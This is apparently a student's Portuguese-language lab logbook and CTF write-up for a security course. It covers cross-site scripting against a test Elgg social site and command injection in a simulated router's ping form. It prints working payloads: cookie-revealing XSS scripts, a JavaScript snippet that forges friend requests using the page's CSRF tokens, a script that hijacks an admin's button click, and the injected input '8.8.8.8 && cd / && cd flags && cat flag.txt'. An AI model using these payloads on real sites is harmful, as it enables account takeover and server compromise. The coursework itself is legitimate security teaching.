# LOGBOOK 10

## Task 1

A task 1 diz para injetar o código ```<script>alert(’XSS’);</script>``` algures no perfil de um utilizador para que, semore que um utilizador visualizar o perfil atacado, o script correr. Como tal, escolhemos escrever o codigo malicioso na secção 'Brief Description', tal como sugerido no guião.



## Task 2

Adicionamos ao código malicioso da task anterior o seguinte ```<script>alert(document.cookie);</script>```.



O output é o seguinte:



## Task 3

Adicionar este código ao field 'brief description' ```<script>document.write(’’);</script>```. 
Verificamos que de facto foi enviado um GET request com a cookie no body.



## Task 4

Para perceber como funcionam 'friend requests', enviamos um friend request a um utilizador qualquer a partir do perfil de Boby e analisamos o pedido HTTP associado.



Portanto, a estrutura do link para adicionar um amigo é a seguinte:

```http://www.seed-server.com/action/friends/add?friend=56&__elgg_ts=1670425500&__elgg_token=aePQcRQACV3ktQJ8QByzdg&__elgg_ts=1670425500&__elgg_token=aePQcRQACV3ktQJ8QByzdg```

No guião é fornecido um excerto de códio javascript para forjar um pedido de amizade, no qual já existem as variáveis ts e token, que correspondem à segunda parte do URL. Por isso, para garantir que o pedido de amizade que vai ser feito ilicitamente é para o Samy, resta mudar o ID de friend que está no URL, para o de Samy.

Para determinar o ID de Samy enviamos um pedido através da conta de Boby a Samy, pelo que descobrimos que id = 59.


Portanto, o código final será:

```
<script type="text/javascript">

	window.onload = function () {
		var Ajax=null;
		var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
		var token="&__elgg_token="+elgg.security.token.__elgg_token;¡

		//Construct the HTTP request to add Samy as a friend.
		
		var sendurl=http://www.seed-server.com/action/friends/add?friend=59+ts+token+ts+token;  
		
		//Create and send Ajax request to add friend
		
		Ajax=new XMLHttpRequest();
		Ajax.open("GET", sendurl, true);	
		Ajax.send();
	}

</script>

```

Escrevemos, como indicado, o código javascript na secção 'About Me' do perfil de Samy, com o modo 'Edit HTML' ativo



Quando visitamos a página de Samy e fazemos reload à mesma verificamos que o botão "Add Friend" se altera para "Remove Friend" pelo que confirmamos o sucesso do ataque.

Pergunta 1: 

Os pedidos enviados para o servidor contêm as tokens e os timestamps no URL para garantir que os pedidos são autênticos e não sofreram alterações, pelo que o URL no nosso código malicioso precisa de ser válido para o servidor responder a ele portanto, é mandatório incluir ts e token no mesmo.

Pergunta 2:

Não, pois, presumivelmente, o modo de texto executa o HTML inserido, ao passo que o outro modo apenas copia a informação inserida e trata-a como string 


# CTF 10

## Desafio 1

Como o tema desta semana é Cross-Site Scripting, assume-se que o input do website não esteja protegido contra injeção de código malicioso. 
Para testar as águas, fizemos uma primeira submissão, com o texto "please".



Depois de alguns segundos, quando a página recarrega automaticamente, o resultado aparece e vemos que o nosso pedido foi rejeitado. 
O objetivo é que o admin, quando clica no botão "Mark Request as read", o botão "Give the flag" seja também clicado. Para isso injetamos um script em que alteramos o DOM da página HTML:

```
<script>
document.getElementById("markAsRead").onclick = function(){ 
    document.getElementById("giveflag").click(); 
	return false;
}
</script>
```
Submetemos o script e aguardamos o resultado.



Sucesso! Conseguimos a flag :)




## Desafio 2

Este desafio, começa numa página de Login, para simular a página associada a um router. Existe uma secção para fazer ping a hosts. Experimentamos fazer ping a 8.8.8.8 e o resultado foi o seguinte: 



Este resultado é igual ao do comando bash "ping 8.8.8.8" no linux, pelo que achámos que o servidor talvez estivesses a correr uma shell para fazer ping ao host inserido. Por isso, experimentámos inserir o input "8.8.8.8 && ls"



Como é possível verificar, as nossas suspeitas foram confirmadas, pelo facto de terem sido printed os nomes dos ficheiros. Como sabemos que a flag está na diretoria /flags/flag.txt, basta correr o seguinte:

```8.8.8.8 && cd / && cd flags && cat flag.txt```



Sucesso! Conseguimos a flag :)
